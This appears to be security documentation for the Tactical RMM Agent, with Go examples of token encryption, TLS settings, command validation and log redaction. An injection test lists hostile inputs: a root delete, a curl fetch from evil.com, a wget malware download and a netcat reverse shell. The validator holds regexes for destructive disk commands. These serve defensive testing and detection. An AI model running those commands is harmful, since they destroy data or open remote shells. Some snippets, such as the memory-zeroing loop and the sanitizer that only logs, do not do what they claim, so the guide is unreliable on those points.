


# Security Best Practices

This document outlines the comprehensive security framework implemented in the Tactical RMM Agent, including authentication patterns, data encryption, input validation, vulnerability mitigation strategies, and secure development practices.

## Security Architecture Overview

The Tactical RMM Agent implements defense-in-depth security principles with multiple layers of protection to ensure secure operation in enterprise environments.



## Authentication and Authorization

### Token-Based Authentication System

The agent uses a sophisticated token-based authentication system with automatic refresh capabilities.

#### Authentication Flow



#### Token Security Implementation

**Token Storage Security:**
```go
type SecureTokenStorage struct {
    encryptionKey []byte
    storePath     string
}

func (s *SecureTokenStorage) StoreToken(token string) error {
    // Encrypt token before storage
    encryptedToken, err := s.encrypt([]byte(token))
    if err != nil {
        return fmt.Errorf("token encryption failed: %w", err)
    }
    
    // Store with restricted permissions
    return os.WriteFile(s.storePath, encryptedToken, 0600)
}

func (s *SecureTokenStorage) RetrieveToken() (string, error) {
    // Read encrypted token
    encryptedData, err := os.ReadFile(s.storePath)
    if err != nil {
        return "", fmt.Errorf("token read failed: %w", err)
    }
    
    // Decrypt and return
    decryptedToken, err := s.decrypt(encryptedData)
    if err != nil {
        return "", fmt.Errorf("token decryption failed: %w", err)
    }
    
    return string(decryptedToken), nil
}
```

**Token Validation:**
- JWT-based tokens with expiration times
- Automatic token refresh before expiration
- Secure token storage with file system permissions
- Token rotation on security events

### OpenFrame Enhanced Security

For enterprise environments requiring additional security, OpenFrame mode provides enhanced authentication:

**OpenFrame Security Features:**
- Pre-shared key authentication
- Mutual TLS authentication
- Enhanced token management
- Centralized connection management
- Advanced access controls

**OpenFrame Implementation:**
```go
type OpenFrameAuth struct {
    Secret       string
    TokenPath    string
    ConnManager  *ConnectionManager
    Encryption   *EncryptionService
}

func (o *OpenFrameAuth) AuthenticateConnection() error {
    // Validate pre-shared secret
    if err := o.validateSecret(); err != nil {
        return fmt.Errorf("secret validation failed: %w", err)
    }
    
    // Establish secure connection
    conn, err := o.ConnManager.SecureConnect()
    if err != nil {
        return fmt.Errorf("secure connection failed: %w", err)
    }
    
    // Exchange authentication tokens
    return o.exchangeTokens(conn)
}
```

## Data Encryption and Secure Storage

### Encryption Standards

The agent implements industry-standard encryption for all sensitive data:

| Data Type | Encryption Method | Key Management |
|-----------|------------------|----------------|
| **Authentication Tokens** | AES-256-GCM | OS keystore/secure storage |
| **Configuration Data** | AES-256-CBC | Derived from system entropy |
| **Communication** | TLS 1.3 | Certificate-based |
| **NATS Messages** | TLS + Message-level encryption | Shared keys |
| **Script Content** | AES-256-GCM | Temporary keys |

### Secure Configuration Management

**Configuration Encryption:**
```go
type SecureConfig struct {
    encryptionKey []byte
    configPath    string
}

func (c *SecureConfig) SaveConfig(config AgentConfig) error {
    // Serialize configuration
    data, err := json.Marshal(config)
    if err != nil {
        return fmt.Errorf("config serialization failed: %w", err)
    }
    
    // Encrypt sensitive fields
    encryptedData, err := c.encryptSensitiveFields(data)
    if err != nil {
        return fmt.Errorf("config encryption failed: %w", err)
    }
    
    // Write with restricted permissions
    return os.WriteFile(c.configPath, encryptedData, 0600)
}

func (c *SecureConfig) encryptSensitiveFields(data []byte) ([]byte, error) {
    var config map[string]interface{}
    if err := json.Unmarshal(data, &config); err != nil {
        return nil, err
    }
    
    // Encrypt sensitive fields
    sensitiveFields := []string{"token", "secret", "password", "key"}
    for _, field := range sensitiveFields {
        if value, exists := config[field]; exists {
            encrypted, err := c.encrypt([]byte(fmt.Sprintf("%v", value)))
            if err != nil {
                return nil, err
            }
            config[field] = base64.StdEncoding.EncodeToString(encrypted)
        }
    }
    
    return json.Marshal(config)
}
```

### Communication Security

**HTTPS Configuration:**
```go
func (a *Agent) createSecureHTTPClient() *http.Client {
    tlsConfig := &tls.Config{
        MinVersion:         tls.VersionTLS12,
        CurvePreferences:   []tls.CurveID{tls.X25519, tls.CurveP256},
        CipherSuites: []uint16{
            tls.TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384,
            tls.TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
            tls.TLS_ECDHE_ECDSA_WITH_CHACHA20_POLY1305,
            tls.TLS_ECDHE_RSA_WITH_CHACHA20_POLY1305,
        },
        PreferServerCipherSuites: true,
    }
    
    transport := &http.Transport{
        TLSClientConfig:     tlsConfig,
        MaxIdleConns:        10,
        IdleConnTimeout:     30 * time.Second,
        DisableCompression:  false,
        ForceAttemptHTTP2:   true,
    }
    
    return &http.Client{
        Timeout:   30 * time.Second,
        Transport: transport,
    }
}
```

## Input Validation and Sanitization

### Command Validation Framework

All external input undergoes rigorous validation to prevent injection attacks and unauthorized operations.

**Command Validation Pipeline:**
```go
type CommandValidator struct {
    allowedCommands map[string]CommandSpec
    maxLength       int
    maxExecutionTime time.Duration
}

type CommandSpec struct {
    AllowedShells   []string
    RequiredArgs    []string
    ForbiddenArgs   []string
    MaxArgLength    int
    RequiresSudo    bool
}

func (v *CommandValidator) ValidateCommand(cmd Command) error {
    // Length validation
    if len(cmd.Script) > v.maxLength {
        return fmt.Errorf("command exceeds maximum length: %d", v.maxLength)
    }
    
    // Shell validation
    if err := v.validateShell(cmd.Shell); err != nil {
        return fmt.Errorf("shell validation failed: %w", err)
    }
    
    // Argument validation
    if err := v.validateArguments(cmd.Args); err != nil {
        return fmt.Errorf("argument validation failed: %w", err)
    }
    
    // Content scanning
    if err := v.scanForMaliciousContent(cmd.Script); err != nil {
        return fmt.Errorf("content validation failed: %w", err)
    }
    
    return nil
}

func (v *CommandValidator) scanForMaliciousContent(script string) error {
    // Dangerous patterns to detect
    dangerousPatterns := []string{
        `rm\s+-rf\s+/`,           // Recursive delete of root
        `dd\s+if=.*of=/dev/`,     // Disk operations
        `mkfs\.`,                 // File system creation
        `fdisk`,                  // Disk partitioning
        `format\s+[cd]:\s*$`,     // Windows drive format
        `del\s+/s\s+/q\s+c:\\`,   // Windows recursive delete
        `:\(\)\{.*\}`,            // Fork bomb pattern
    }
    
    for _, pattern := range dangerousPatterns {
        if matched, _ := regexp.MatchString(pattern, strings.ToLower(script)); matched {
            return fmt.Errorf("potentially dangerous command detected: %s", pattern)
        }
    }
    
    return nil
}
```

### Input Sanitization

**Script Sanitization:**
```go
func sanitizeScript(script string) (string, error) {
    // Remove null bytes
    script = strings.ReplaceAll(script, "\x00", "")
    
    // Normalize line endings
    script = strings.ReplaceAll(script, "\r\n", "\n")
    script = strings.ReplaceAll(script, "\r", "\n")
    
    // Limit script length
    if len(script) > maxScriptLength {
        return "", fmt.Errorf("script exceeds maximum length")
    }
    
    // Remove or escape dangerous characters
    dangerous := []string{"`", "$", "||", "&&", ";", "|"}
    for _, char := range dangerous {
        if strings.Contains(script, char) {
            // Log security event
            logSecurityEvent("dangerous_character_detected", char)
        }
    }
    
    return script, nil
}
```

## Common Security Vulnerabilities and Mitigations

### 1. Command Injection Prevention

**Risk**: Malicious commands executed through script injection.

**Mitigations Implemented:**
- Command validation and sanitization
- Whitelisted command patterns
- Execution environment sandboxing
- Resource limits (CPU, memory, time)
- Output size restrictions

**Implementation:**
```go
func (a *Agent) ExecuteSecureCommand(cmd Command) (*CommandResult, error) {
    // Validate command
    if err := a.validator.ValidateCommand(cmd); err != nil {
        a.logSecurityEvent("command_validation_failed", cmd)
        return nil, fmt.Errorf("command validation failed: %w", err)
    }
    
    // Create execution context with timeout
    ctx, cancel := context.WithTimeout(context.Background(), cmd.Timeout)
    defer cancel()
    
    // Execute in restricted environment
    result, err := a.executeInSandbox(ctx, cmd)
    if err != nil {
        a.logSecurityEvent("command_execution_failed", cmd)
        return nil, fmt.Errorf("command execution failed: %w", err)
    }
    
    // Validate output
    if err := a.validateOutput(result); err != nil {
        a.logSecurityEvent("output_validation_failed", result)
        return nil, fmt.Errorf("output validation failed: %w", err)
    }
    
    return result, nil
}
```

### 2. Privilege Escalation Prevention

**Risk**: Unauthorized privilege escalation through agent exploitation.

**Mitigations Implemented:**
- Principle of least privilege
- Service runs with minimal required permissions
- No hardcoded credentials or backdoors
- Regular privilege auditing
- Secure file permissions

**Permission Management:**
```go
func (a *Agent) setSecurePermissions() error {
    // Agent executable permissions
    if err := os.Chmod(a.ExecutablePath, 0755); err != nil {
        return fmt.Errorf("failed to set executable permissions: %w", err)
    }
    
    // Configuration file permissions (owner read/write only)
    if err := os.Chmod(a.ConfigPath, 0600); err != nil {
        return fmt.Errorf("failed to set config permissions: %w", err)
    }
    
    // Log file permissions
    if err := os.Chmod(a.LogPath, 0640); err != nil {
        return fmt.Errorf("failed to set log permissions: %w", err)
    }
    
    // Token storage permissions (owner read/write only)
    if err := os.Chmod(a.TokenPath, 0600); err != nil {
        return fmt.Errorf("failed to set token permissions: %w", err)
    }
    
    return nil
}
```

### 3. Information Disclosure Prevention

**Risk**: Sensitive information leaked through logs, error messages, or network traffic.

**Mitigations Implemented:**
- Sensitive data redaction in logs
- Encrypted network communication
- Secure error handling
- Memory clearing after use
- Audit trail protection

**Secure Logging:**
```go
type SecureLogger struct {
    *logrus.Logger
    sensitiveFields []string
}

func (l *SecureLogger) LogWithRedaction(level logrus.Level, msg string, fields logrus.Fields) {
    // Redact sensitive fields
    cleanFields := make(logrus.Fields)
    for key, value := range fields {
        if l.isSensitive(key) {
            cleanFields[key] = "[REDACTED]"
        } else if str, ok := value.(string); ok {
            cleanFields[key] = l.redactSensitiveContent(str)
        } else {
            cleanFields[key] = value
        }
    }
    
    // Log with redacted fields
    l.WithFields(cleanFields).Log(level, l.redactSensitiveContent(msg))
}

func (l *SecureLogger) redactSensitiveContent(content string) string {
    // Redact common sensitive patterns
    patterns := map[string]string{
        `"token":\s*"[^"]*"`:     `"token": "[REDACTED]"`,
        `"password":\s*"[^"]*"`: `"password": "[REDACTED]"`,
        `"secret":\s*"[^"]*"`:   `"secret": "[REDACTED]"`,
        `Authorization:\s+\S+`:   `Authorization: [REDACTED]`,
    }
    
    for pattern, replacement := range patterns {
        re := regexp.MustCompile(pattern)
        content = re.ReplaceAllString(content, replacement)
    }
    
    return content
}
```

## Security Testing and Code Review Guidelines

### Security Testing Framework

**Automated Security Tests:**
```go
func TestCommandInjectionPrevention(t *testing.T) {
    agent := NewTestAgent()
    
    // Test malicious command patterns
    maliciousCommands := []string{
        `rm -rf /; echo "hacked"`,
        `$(curl evil.com/script.sh)`,
        `& del /s /q c:\*.*`,
        `; wget malware.com/evil.exe`,
        `| nc evil.com 4444 -e /bin/sh`,
    }
    
    for _, cmd := range maliciousCommands {
        _, err := agent.ExecuteCommand(Command{Script: cmd})
        assert.Error(t, err, "Malicious command should be blocked: %s", cmd)
        assert.Contains(t, err.Error(), "validation failed", "Should fail validation")
    }
}

func TestTokenSecurity(t *testing.T) {
    storage := NewSecureTokenStorage()
    
    // Test token encryption
    originalToken := "test-token-12345"
    err := storage.StoreToken(originalToken)
    assert.NoError(t, err)
    
    // Verify token is encrypted on disk
    rawData, _ := os.ReadFile(storage.storePath)
    assert.NotContains(t, string(rawData), originalToken, "Token should be encrypted")
    
    // Verify retrieval works
    retrievedToken, err := storage.RetrieveToken()
    assert.NoError(t, err)
    assert.Equal(t, originalToken, retrievedToken, "Retrieved token should match original")
}
```

### Code Review Security Checklist

**Security Review Points:**

- [ ] **Input Validation**: All external input properly validated and sanitized
- [ ] **Authentication**: Proper authentication mechanisms implemented
- [ ] **Authorization**: Access controls enforced for all operations
- [ ] **Encryption**: Sensitive data encrypted in transit and at rest
- [ ] **Error Handling**: Security-relevant errors properly handled without information disclosure
- [ ] **Logging**: Sensitive information redacted from logs
- [ ] **Resource Limits**: Proper limits on resource consumption
- [ ] **Privilege Management**: Principle of least privilege followed
- [ ] **Dependencies**: Third-party dependencies vetted for security issues
- [ ] **File Permissions**: Proper file system permissions set

## Environment Variables and Secrets Management

### Secure Environment Variables

Never store sensitive information in environment variables or configuration files in plain text.

**Environment Variable Security:**
```go
func (a *Agent) loadSecureConfig() error {
    // Read from secure storage instead of environment
    token, err := a.tokenStorage.RetrieveToken()
    if err != nil {
        return fmt.Errorf("failed to retrieve token: %w", err)
    }
    
    // Clear sensitive data from memory after use
    defer func() {
        // Zero out sensitive strings
        for i := range token {
            token = token[:i] + "\x00" + token[i+1:]
        }
    }()
    
    a.config.Token = token
    return nil
}
```

### Secrets Management Best Practices

1. **Never commit secrets** to version control
2. **Use OS-provided secure storage** (Keychain, Credential Manager, etc.)
3. **Rotate secrets regularly**
4. **Implement proper access controls**
5. **Monitor secret access**
6. **Use short-lived tokens** when possible

## Security Monitoring and Incident Response

### Security Event Logging

**Security Event Framework:**
```go
type SecurityEvent struct {
    Timestamp   time.Time
    EventType   string
    Severity    string
    Description string
    Context     map[string]interface{}
    UserAgent   string
    SourceIP    string
}

func (a *Agent) logSecurityEvent(eventType string, context interface{}) {
    event := SecurityEvent{
        Timestamp:   time.Now(),
        EventType:   eventType,
        Severity:    a.determineSeverity(eventType),
        Description: a.getEventDescription(eventType),
        Context:     a.sanitizeContext(context),
        UserAgent:   a.getUserAgent(),
        SourceIP:    a.getSourceIP(),
    }
    
    // Log locally
    a.logger.WithFields(logrus.Fields{
        "security_event": event.EventType,
        "severity":       event.Severity,
        "timestamp":      event.Timestamp,
    }).Warn("Security event detected")
    
    // Report to server if configured
    if a.config.ReportSecurityEvents {
        go a.reportSecurityEvent(event)
    }
}
```

### Incident Response Procedures

**Automated Response Actions:**
- Suspicious command execution → Block and log
- Failed authentication attempts → Rate limiting
- Privilege escalation attempts → Service shutdown
- Malware detection → Quarantine and alert
- Network anomalies → Connection throttling

This security framework provides comprehensive protection for the Tactical RMM Agent while maintaining operational functionality. Regular security audits, penetration testing, and code reviews ensure the continued effectiveness of these security measures.